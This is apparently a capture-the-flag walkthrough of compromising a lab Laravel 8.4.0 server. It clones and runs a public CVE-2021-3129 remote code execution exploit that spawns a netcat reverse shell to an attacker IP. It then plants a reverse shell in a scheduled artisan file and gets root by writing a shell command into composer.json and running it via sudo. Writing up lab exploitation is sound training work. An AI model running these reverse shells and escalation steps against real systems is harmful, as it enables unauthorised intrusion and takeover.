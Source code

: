 ![](../attachment/9fc00f90ab1fb16d59c43c8637b317ad.png)When visiting non-existent web pages:
![](../attachment/1b1762a2953338d2ed74c6139f599b04.png)
It's running Laravel 8.4.0

Using this [exploit](https://github.com/joshuavanderpoll/CVE-2021-3129):
```
git clone https://github.com/joshuavanderpoll/CVE-2021-3129.git
cd CVE-2021-3129
python3 -m venv .venv
source .venv/bin/activate
pip3 install -r requirements.txt
```
Checking the chains available:
```
python3 CVE-2021-3129.py --chains
```
![](../attachment/637a38a95ab85708a2f6a189ecc940bd.png)
Trying RCE2:
```
python3 CVE-2021-3129.py --host http://192.168.155.38/ --exec 'busybox nc 192.168.45.223 80 -e bash' --chain Laravel/RCE2
```
Now run a listener:
```
pen 80
```
![](../attachment/c5255281f19ec532ebb830f7cbbc5a89.png)
We get a shell.

Running linpeas we can find that skunk is in sudo group.
![](../attachment/89261a997775f48371de322868d2c167.png)

Running pspy64:
![](../attachment/c2928e059899e4dd588dcdabd1e4d9d1.png)
We have a file running called  artisan:
![](../attachment/b3f2244661c535ed9305e621d58cc42d.png)

Now putting a reverse shell in it![](../attachment/a47465c98f5504f4f04cf1da40f9eaef.png)
From pentestmonkey.

Start a listener:
```
penelope.py 8000
```
![](../attachment/0a57efb661c11487c75b3f4721e1008d.png)

Running `sudo -l`:
![](../attachment/3f5f32831d69fdabe22549e925fb60b1.png)

We can run composer without password.

Now in `/var/www/html/lavita` edit composer.json WITH SHELL AS WWW-DATA:
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
```
![](../attachment/4dec992e65f31f8986fd88dd4dcb86f1.png)
Now run command:
```
sudo /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
```
We get a root shell:
![](../attachment/d6d036a42d6949a675bc6b7b07b31746.png)